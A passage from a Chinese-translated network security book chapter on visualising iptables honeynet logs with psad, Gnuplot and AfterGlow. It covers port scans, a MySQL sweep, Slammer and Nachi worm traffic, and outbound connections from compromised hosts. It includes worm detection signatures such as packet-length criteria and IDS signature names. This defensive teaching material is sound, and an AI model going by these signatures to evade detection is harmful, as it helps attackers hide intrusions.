

图 14-3. 源 IP 地址 vs. 唯一端口数量

正如您在图 14-3 中所见（该图绘制的是单个点而非连续线，此选项在上述 `psad` 执行命令中以**粗体**显示），大多数源地址仅发送数据包到一两个唯一端口。然而，正如您在图表左上角所见，有一个 IP 地址（在 x 轴约 1,000 范围内）连接了 60 多个唯一端口；这是整个数据集中的顶级端口扫描者。

同时请注意，端口扫描的时间范围*未被计入*图表中。因此，源 IP 地址扫描这 60 个唯一端口的速度快慢并不重要——即使这次扫描是在数据集覆盖的整个五周时间内缓慢进行的，它在图 14-3 中仍然会显示为顶级端口扫描者。

**注意**

由于 `Gnuplot` 在处理整数数据时效果最好，`psad` 在解析 `iptables` 日志文件时，会将所有 IP 地址映射为唯一的正整数（从 0 开始）。因此，根据日志文件中唯一地址的数量，IP 地址 `192.168.3.2` 可能会被映射到像 502 这样的数字，而 `11.11.79.125` 可能会被映射到 10201。对于 `Gnuplot` 数据文件中的每一行，IP 地址始终作为末尾注释包含在行末。这使您能够查看每个地址映射到了哪个整数。

`psad` 生成的 `fig14-3.dat` 文件在文件顶部包含以下三个数据点：

```
905, 66  ### 905=60.248.80.102
12415, 10  ### 12415=63.135.2.15
15634, 10  ### 15634=63.186.32.94
```


这告诉我们，顶级端口扫描者的 IP 地址是 60.248.80.102，共扫描了 66 个目标端口。接下来的两个最严重违规者每人仅扫描了 10 个唯一端口。

现在，让我们为 Scan34 数据集绘制每小时唯一端口数量的图表。这将向我们展示是否存在快速端口扫描，或者扫描者是否都试图在扫描蜜网时，潜行在任何监控 IDS 的端口扫描时间阈值之下：

```bash
# psad -m iptables.data --gnuplot --CSV-fields "timestamp dp:counthouruniq" \
--gnuplot-graph lines --gnuplot-xrange 1140887484:1143867180 \
--CSV-neg-regex "SRC=11.11.*" --gnuplot-yrange 0:100 --gnuplot-file-prefix fig14-4
$ gnuplot fig14-4.gnu
```

执行 Gnuplot 生成了一张每小时连接到唯一端口数量的图表。（请注意上方粗体部分，`psad` 命令行中针对目标端口的 `counthouruniq` 指令解析了 Scan34 数据集，以产生该图表所需的原始数据。）图 14-4 显示了结果图表，在 3 月 31 日的某个时间点，每小时唯一端口数量出现了一个巨大的峰值。



图 14-4. 时间 vs. 唯一端口

事实上，这与图 14-3 中看到的顶级端口扫描者 60.248.80.102 相吻合，这一点可以从 60.248.80.102 IP 地址产生的第一条和最后一条 `iptables` 日志消息的时间戳中看出：

```bash
$ grep 60.248.80.102 iptables.data | head -n 1
Mar 31 10:43:28 bridge kernel: INBOUND TCP: in-br0 PHYsin=eth0 OUT=br0 PHYsout=eth1 SRC=60.248.80.102 DST=11.11.79.125 LEN=40 TG=0x00 PREC=0x00 TTL=108 ID=123 DP FPROTO=TCP SPT=51125 DPT=4000 WINDOW=0 RES=0x00 SEQ=0x00 SYN URGP=0
$ grep 60.248.80.102 iptables.data | tail -n 1
Mar 31 10:45:14 bridge kernel: INBOUND UDP: in-br0 PHYsin=eth0 OUT=br0 PHYsout=eth1 SRC=60.248.80.102 DST=11.11.79.125 LEN=32 TG=0x00 PREC=0x00 TTL=108 ID=43845 PROTO=UDP SPT=2402 DPT=256 LEN=12 bytes
```

上述第一条日志消息的时间戳是 3 月 31 日上午 10:43，最后一条是同一天上午 10:45。这告诉我们，整个端口扫描仅花费了两分钟。

最后，为了尽可能多地获取关于 60.248.80.102 扫描 IP 地址的信息，您可以使用 `psad` 的取证模式，并使用 `--analysis-fields "src:60.248.80.102"` 命令行参数将调查范围限制在此 IP 地址上，如下所示：

```bash
# psad -M iptables.data --AA --analysis-fields "src:60.248.80.102"
[*] IP Status Detail:
SRC: 60.248.80.102, DL: 2, Dts: 1, Pkts: 67, Unique sigs: 3
DST: 11.11.79.125
❶ Scanned ports: UDP 7-63981, Pkts: 53, Chain: FORWARD, Intf: br0
❷ Scanned ports: TCP 68-32783, Pkts: 14, Chain: FORWARD, Intf: br0
❸ Signature match: "POLICY pncviewer Java applet download attempt"
TCP, Chain: FORWARD, Count: 1, DP: 5802, SYN, SID: 1846
Signature match: "PSAD-CUSTOM Slammer reconnaissance attempt"
UDP, Chain: FORWARD, Count: 1, DP: 1334, SID: 100208
Signature match: "RPC portmap listing UDP 32771"
UDP, Chain: FORWARD, Count: 1, DP: 32771, SID: 1281
```

为了简洁起见，上述 `psad` 取证模式中的大部分输出已被删除，仅保留了有趣的部分——扫描的 TCP 和 UDP 端口范围（❶ 和 ❷）以及 60.248.80.102 IP 地址在 `psad` 中触发的签名匹配（❸）。这些签名匹配显示了针对这些端口流量的一些最常见的恶意用途。

### 端口扫描探测（Port Sweeps）

端口扫描探测很有趣，因为它们通常表明蠕虫或人类攻击者正试图通过某个特定服务的特定漏洞来入侵更多系统。图 14-5 中的图表绘制了外部 IP 地址与每个外部地址发送数据包的唯一本地地址数量的关系：

```bash
# psad -M iptables.data --gnuplot --CSV-fields "src:❶not11.11.0.0/16 dst:11.11.0.0/16, ❷countuniq" \
--gnuplot-graph points --gnuplot-xrange 0:26000 --gnuplot-yrange 0:27 --gnuplot-file-prefix fig14-5
$ gnuplot fig14-5.gnu
```

Gnuplot 生成了图 14-5 所示的图表。（注意上述 ❶ 处的 `not` 用于排除 11.11.0.0/16 网络，以及 ❷ 处的 `countuniq` 指令用于统计唯一目标地址的数量。）

# `psad` iptables 日志可视化：src:not11.11.0.0/16 dst:11.11.0.0/16,countuniq



图 14-5. 外部源地址与唯一本地目的地址数量的对比

如图 14-5 所示，大多数外部地址（x 轴）发送数据包到一两个目的地址（y 轴计数）。然而，有几个外部地址连接到了蜜网（honeynet）网络中多达 24 个地址。对于范围在 18000 到 26000 之间的外部地址，这种情况尤为明显。`fig14-5.dat` 文件（可从 http://www.cypherdyne.org/linuxfirewalls 下载）表明，在 `iptables` 数据集中，18000 到 26000 的 IP 地址范围对应于 63.236.244.77 到大约 221.140.82.123。

在 Scan34 `iptables` 数据集中，某些源地址反复尝试连接一系列目标服务器上的特定端口。图 14-6 展示了从外部源地址到目的端口的数据包数量。该图是三维的，因此 x 轴代表源地址，y 轴显示端口号，z 轴是数据包计数。（请注意 `psad` 命令行中的 `--gnuplot-3d` 参数。）

```bash
# psad -m -iptables.data --gnuplot --CSV-fields src:not11.11.0.0/16 dp:count --gnuplot -graph points --gnuplot-3d --gnuplot-view 74,77 --gnuplot-file-prefix fig14-6
$ gnuplot fig14-6.gnu
```

# `psad` iptables 日志可视化：src:not11.11.0.0/16 dp:count



图 14-6. 外部源地址 vs. 目的端口 vs. 数据包计数

上述图中，一个发送到 10,000 以下端口（y 轴）且数据包超过 2,000 个（z 轴）的离群点，显示在源地址与目的端口的一般平面之上（该平面上的通用计数低于 500）。通过查看 `fig14-6.dat` 文件，我们可以看到该点对应于 IP 地址 200.216.205.189，它向 TCP 端口 3306（MySQL）总共发送了 2,244 个数据包：

> 22315, 3306, 2244 ### 22315=200.216.205.189

这看起来显然是一个端口扫描器。事实上，图 14-7 中的图表说明了 200.216.205.189 这个源 IP 地址连接到了 11.11.0.0/16 子网中许多目的地址的 3306 端口（我们将接下来的图表限制在仅包含源 IP 地址 200.216.205.189）：

```bash
# psad -m iptables.data --gnuplot --CSV-fields "dst dp:3306,count" --CSV-regex "SRC=200.216.205.189" --gnuplot-graph points --gnuplot-yrange 0:150 --gnuplot-file-prefix fig14-7
$ gnuplot fig14-7.gnu
```

图 14-7 显示了 IP 地址 200.216.205.189 向每个目的 IP 地址（x 轴）的 TCP 端口 3306 发送的数据包数量（y 轴）。共有 24 个目的地址参与了这次端口扫描，在某些系统上，发送到 3306 端口的数据包超过了 120 个。



图 14-7. MySQL 3306 端口扫描

可视化上述另一种方法是使用 AfterGlow 生成链路图。此类图表以可视化格式包含源和目的 IP 地址，并显示从源 IP 地址 200.216.205.189 到 11.11.0.0/16 子网中几个目的地的系列数据包：

```bash
# psad -m iptables.data --CSV --CSV-fields "src:200.216.205.189 dst dp:3306" --CSV-max 6 | perl afterglow.pl -c color.nf | neato -tpng -o fig14-8.png
```

`psad` 对 AfterGlow 的接口生成了如图 14-8 所示的链路图。（请参阅上方粗体标注的 `psad --CSV-max` 参数，它用于将数据点数量限制在 6 个，以提高可读性。）



图 14-8. MySQL 端口扫描的链路图

## Slammer 蠕虫

Slammer（或 Sapphire）蠕虫是历史上传播最快的蠕虫之一。它利用了 Microsoft SQL Server 2000 中的栈溢出漏洞，通过一个单一的 404 字节 UDP 数据包（包括 IP 标头）发送到 1434 端口。

在 `iptables` 日志数据中可以轻松地将 Slammer 蠕虫识别为发送到 UDP 1434 端口且 IP LEN 字段为 404 的数据包。`psad` 签名集包含 PSAD-CUSTOM Slammer 通信尝试签名，以便在蠕虫攻击您的系统时发出警报。让我们看看 Slammer 蠕虫是否在外部源对蜜网发起攻击：

```bash
# psad -m iptables.data --gnuplot --CSV-fields "timestamp dp:1434,counthour" --gnuplot-graph lines --gnuplot-xrange 1140887484:1143867180 --CSV-regex "LEN=404.*PROTO=UDP" --CSV-neg-regex "SRC=11.11." --gnuplot-file-prefix fig14-9
$ gnuplot fig14-9.gnu
```

Gnuplot 生成了如图 14-9 所示的折线图。（请注意上方粗体命令行参数 `--CSV-regex` 中的 `LEN=404` 标准；这至关重要，因为 Scan34 数据集中记录了其他发送到 1434 端口的 UDP 数据包，但由于总数据包长度不是 404 字节，它们并非来自 Slammer 蠕虫。）



图 14-9. 按小时计的 Slammer 蠕虫数据包计数

确实，Slammer 蠕虫对蜜网进行了攻击，3 月 20 日的大幅激增显示峰值活动约为每小时 57 个数据包。

这是一个相当可观的活动量，但如果我们改变时间尺度会发生什么？让我们提高时间尺度，看看 Slammer 的每分钟活动情况（请注意这次在 `psad` 命令中使用了 `countmin` 选项）：

```bash
# psad -m iptables.data --gnuplot --CSV-fields "timestamp dp:1434,countmin" --gnuplot-graph lines --gnuplot-xrange 1140887484:1143867180 --CSV-regex "LEN=404.*PROTO=UDP" --CSV-neg-regex "SRC=11.11." --gnuplot-file-prefix fig14-10
$ gnuplot fig14-10.gnu
```

现在，图 14-10 中显示的 Slammer 蠕虫活动看起来不像图 14-9 中的剧烈激增那样严重，但这仅仅是因为时间尺度发生了变化。来自受 Slammer 蠕虫感染系统的数包数量没有改变，但在 3 月 21 日，Scan34 挑战涵盖的整个五周期间，最高记录为四个数据包。



图 14-10. 按分钟计的 Slammer 蠕虫数据包计数

## Nachi 蠕虫

Nachi 蠕虫攻击尚未针对 MS03-026 漏洞进行补丁修复的 Microsoft Windows 2000 和 XP 系统（MS03-026 字符串是指微软的漏洞跟踪编号）。该蠕虫的一个关键特点是，在尝试入侵系统之前，它首先会用一个 92 字节的 ICMP Echo Request 数据包 ping 目标。这个长度恰好为 92 字节的初始 ICMP 数据包使得 Nachi 蠕虫很容易被检测到。要绘制 Scan34 `iptables` 数据集中的 Nachi 蠕虫流量，可以使用 `--CSV-fields` 参数的 `ip_len:92` 标准，并将检查范围限制在非 11.11.0.0/16 子网起源的 ICMP 数据包：

```bash
# psad -m iptables.data --gnuplot --CSV-fields "timestamp ip_len:92,counthour" --gnuplot-graph lines --gnuplot-xrange 1140887484:1143867180 --CSV-regex "PROTO=ICMP" --CSV-neg-regex "SRC=11.11." --gnuplot-file-prefix fig14-11
$ gnuplot fig14-11.png
```

果然，3 月 19 日出现了 Nachi 蠕虫活动的激增，这在图 14-11 所示的 Gnuplot 图表中清晰可见。



图 14-11. 按小时计的 Nachi 蠕虫流量

蠕虫流量的链路图非常引人注目，因为有大量外部 IP 地址向本地子网发送可疑数据包。AfterGlow 生成的链路图（如图 14-12 所示）说明了 Nachi 蠕虫的 ICMP 流量正集中攻击蜜网系统。92 字节的 IP LEN 字段显示为图正中央的小圆圈，外部 IP 地址显示为椭圆，而蜜网地址显示为矩形：

```bash
$ psad -m iptables.data --CSV --CSV-fields "src dst ip_len:92" --CSV-max 300 --CSV-regex "PROTO=ICMP.*TYPE=8" | perl afterglow.pl -c color.nf | neato -Tpng -o fig14-12.png
```

## 来自受损系统的出站连接

蜜网（Honeynet）系统被部署在开放的互联网上，目的是希望它们被攻破。分析成功的攻击以及导致真实入侵的步骤，是学习如何保护系统并获取关于潜在新漏洞的宝贵情报的最佳方式。除了我们已经讨论过的端口扫描、端口扫描范围（port sweeps）和蠕虫活动外，我们还可以使用 `iptables` 数据来确定是否有任何蜜网系统向外部 IP 地址发起出站连接。



图 14-12. Nachi 蠕虫 92 字节 ICMP 数据包的链路图

如果无法用预期的管理通信来解释，那么从蜜网发往外部 SSH 和 IRC 服务器的连接就显得尤为可疑，这是蜜网系统已被攻破的强有力指标。同样，如果你注意到由你管理的系统发出了出站 SSH 或 IRC 连接，且对此类连接没有合理且合法的解释，那么可能需要进行深入分析。

为了绘制从蜜网 `11.11.0.0/16` 子网到外部地址目标端口的所有出站 SYN 数据包图表，我们执行以下命令：


# psad 数据可视化

## 使用 Gnuplot 绘制点图

执行以下命令，使用 `psad` 分析 `iptables.data` 文件，并通过 Gnuplot 生成点图：

```
# psad -m iptables.data --gnuplot --CSV-fields "src:11.11.0.0/16 dst:not11.11.0.0/16 dp" --CSV-regex "SYN URGP=" --gnuplot-graph points --gnuplot-file-prefix fig14-13 --gnuplot-view 71,63
$ gnuplot fig14-13.png
```

Gnuplot 生成了如图 14-13 所示的图表。（注意上方粗体显示的 `"SYN URGP="` 匹配标准，它匹配 iptables 日志消息中 TCP 标志部分的 SYN 标志。）

